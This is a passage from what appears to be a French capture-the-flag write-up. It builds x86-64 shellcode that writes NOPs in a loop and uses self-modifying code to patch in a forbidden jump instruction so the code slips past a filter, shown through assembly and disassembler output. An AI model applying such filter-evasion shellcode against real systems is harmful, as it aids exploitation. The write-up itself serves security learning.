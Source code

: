 Ce qui donne :
```asm
bits 64

lea rdi, [rsp+0x45] ; rdi = debut shellcode
add rdi, 0x9 ; taille shellcode
```

On veut maintenant remplacer `taille shellcode` octets par des nop à partir de
l'adresse `adresse shellcode + taille shellcode`. Il va donc nous falloir une
boucle.
Comme les instructions `jmp` sont interdites, on peut modifier notre shellcode à
l'exécution. On s'aide pour cela de `disass.py` pour connaître les octets qui
composent notre jump.
```asm
bits 64

%define SIZE 0x13

lea rdi, [rsp+0x45] ; rdi = debut shellcode
add rdi, SIZE ; taille shellcode

loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    jnz loop
```

```sh
$ nasm -f bin shellcode.asm -o shellcode && xxd -p shellcode | tr -d '\n' > shellcode.hex \
    && python3 disass.py shellcode.hex
38
488d7c24454883c713c6040790fec03c1375f6f675133cc0fe900704c613c7834845247c8d48
<CsInsn 0x0 [488d7c2445]: lea rdi, [rsp + 0x45]>
<CsInsn 0x5 [4883c713]: add rdi, 0x13>
<CsInsn 0x9 [c6040790]: mov byte ptr [rdi + rax], 0x90>
<CsInsn 0xd [fec0]: inc al>
<CsInsn 0xf [3c13]: cmp al, 0x13>
CS_GRP_JUMP <CsInsn 0x11 [75f6]: jne 9> <------------ ici
<CsInsn 0x13 [f67513]: div byte ptr [rbp + 0x13]>
<CsInsn 0x16 [3cc0]: cmp al, 0xc0>
False
```

(On remarque le "False" à la fin, le shellcode n'a donc pas passé l'ensemble des
tests puisqu'il contient une instruction jump.)  
On doit donc remplacer les octets aux places 0x11 et 0x12 par, respectivement
0x75 et 0xf6 grâce à :
```asm
mov BYTE [rdi+0x11], 0x75
mov BYTE [rdi+0x12], 0xf6
```
